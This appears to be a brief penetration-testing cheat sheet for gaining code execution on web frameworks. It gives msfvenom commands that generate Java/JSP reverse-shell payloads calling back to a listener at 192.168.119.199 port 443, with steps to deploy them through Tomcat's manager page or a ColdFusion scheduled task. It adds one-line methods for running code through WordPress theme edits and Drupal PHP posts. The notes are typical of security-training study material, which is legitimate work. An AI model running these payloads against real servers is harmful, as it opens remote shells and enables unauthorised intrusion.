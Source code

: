 
## Common framework
### Tomcat
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f war > shell.war
```
Deploy .war through /manager/html
https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
### Coldfusion
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f raw > shell.jsp
```
Upload through schedule task
### Wordpress
Edit 404.php in `Appearance`
### Drupal
Enable php in options
New post with php code
